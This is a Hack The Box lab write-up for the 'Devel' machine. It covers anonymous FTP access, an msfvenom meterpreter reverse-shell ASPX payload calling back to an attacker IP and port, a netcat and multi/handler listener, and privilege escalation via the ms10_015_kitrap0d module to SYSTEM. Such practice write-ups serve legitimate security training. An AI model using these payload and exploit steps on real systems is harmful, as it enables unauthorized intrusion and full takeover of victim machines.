 ```yaml
---
title: "[HTB] Devel"
author: "Wook Lee"
date: "2024-08-07"
tags: ["Hack The Box"]
---
```


#### Scanning with nmap

the nmap scan results show that **_ftp-anonymous_** login is allowed.
![alt text](image.png#center)

<br>

I explored a directory but couldn't find any useful info on the server.
![alt text](image-1.png#center)

<br>

Because the http port 80 server is also open, I tried navigating to the address on Firefox.
![alt text](image-2.png#center)

<br>

#### More information gathering

Then I tried gathering more information which really did not help much and that made me realize there was an easier way to go about this. Because the ftp server was open I could just generate a payload and run it on the webserver and pop the reverse shell.
![alt text](image-3.png#center)

![alt text](image-4.png#center)

![alt text](image-5.png#center)

<br>

#### Generating a payload

I generated a reverse shell payload with **_msfvenom_** and the extension is **_.asp_** since we saw the extension on the ftp server.

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=1234 -f asp > reverse.aspx`

![alt text](image-6.png#center)

<br>

uploaded the reverse shell that I generated onto the ftp server using the **_put_** command.

![alt text](image-7.png#center)

<br>

Before navigating to **http://10.10.10.5/reverse.aspx**, I had to start a netcat server to listen to the port by running the following command:
`nc -lvnp 1234`

<br>

For some reason, my netcat listener kept crashing. As an alternative, I switched to **_msfconsole_** and utilized **_multi/handler_** to listen ports.

![alt text](image-8.png#center)

<br>

![alt text](image-9.png#center)

<br>

I was able to get the shell but the user was not the admin with low privileges that I couldn't access many directories with the current user. As you could see from the picture below the **_getuid_** returned IIS APPPOOL\Web which is not the administrator. It was time to utilize the **_privilege escaltion_** to move vertically and gain access.

![alt text](image-10.png#center)

<br>

After some research, I learned that there exists a post module in meterpreter. So I backgrouned the current session and searched for the module. `search type:post path:post/multi`.

![alt text](image-11.png#center)

![alt text](image-12.png#center)

<br>

As the name of the exploit (**_local_exploit_suggester_**) implies it suggested many available exploits and I decided to use the 3rd exploit, which is **exploit/windows/local/ms10_015_kitrap0d**.

![alt text](image-13.png#center)

<br>

set the **_SESSION_** as 1, because the backgrouned session is the only session we have and set othe required options.

![alt text](image-14.png#center)

<br>

I succeeded in getting the root shell. **_getuid_** command returned NT AUTHORITY\SYSTEM, another name for root.
![alt text](image-15.png#center)

<br>

found the user flag.
![alt text](image-17.png#center)

<br>

found the root flag.
![alt text](image-16.png#center)

<br>

![alt text](image-18.png#center)
